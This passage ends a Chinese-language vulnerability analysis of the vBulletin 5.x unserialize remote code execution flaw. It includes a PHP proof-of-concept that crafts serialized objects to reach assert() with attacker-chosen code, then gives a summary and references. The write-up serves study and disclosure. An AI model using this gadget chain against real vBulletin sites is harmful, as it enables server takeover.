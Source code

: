 ```
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}    

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}    

print urlencode(serialize(new vB_dB_Result())) . "\n";

```

测试一下，成功执行`assert('print("This Vuln In 5.1.7")')`：

![](http://drops.javaweb.org/uploads/images/a1f2e19140668f78bf74639e61109d73c8764b3f.jpg)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

0x02 小结
=======

* * *

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/)在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用`eval()`函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

0x03 参考
=======

* * *

*   [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
*   [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
*   [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
*   [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
*   [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
*   [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)

原文出处：[http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/](http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/)